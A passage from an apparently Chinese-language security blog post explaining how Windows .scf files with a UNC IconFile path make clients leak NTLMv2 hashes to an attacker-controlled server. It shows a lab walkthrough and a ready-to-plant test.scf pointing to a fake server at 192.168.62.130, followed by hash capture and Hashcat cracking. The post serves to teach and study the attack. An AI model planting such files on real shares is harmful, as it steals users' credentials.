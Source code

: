 包含三种类型：

- Explorer.scf(资源管理器)
- Show Desktop.scf(显示桌面)
- View Channels.scf（查看频道）

格式示例：

```
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

IconFile属性支持UNC路径，也就是说，可以指定文件服务器上的某个文件，例如`IconFile=\\192.168.62.130\test\explorer.exe,3`

特别的地方： 使用Explore.exe打开包含该文件的路径时，由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标，如果图标位于文件服务器，就会访问该文件服务器

直观理解： 打开某一文件夹，该文件夹下面包含scf文件，scf文件的IconFile属性指向文件服务器，本机会自动访问该文件服务器，在访问过程中，默认先使用本机的用户名和密码hash尝试登录。如果文件服务器抓取数据包，就能够获得NTLMv2 Hash

### 实际测试：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135


#### 1、正常文件服务器共享目录下添加文件test.scf，内容如下：

```
[Shell]
Command=2
IconFile=\\192.168.62.130\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

**注：**

IconFile指向伪造文件服务器，test.ico不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问正常文件服务器

#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/2-1.png)

构造特定格式`username::domain:challenge:HMAC-MD5:blob`，使用Hashcat破解即可

具体破解方法可参考文章：
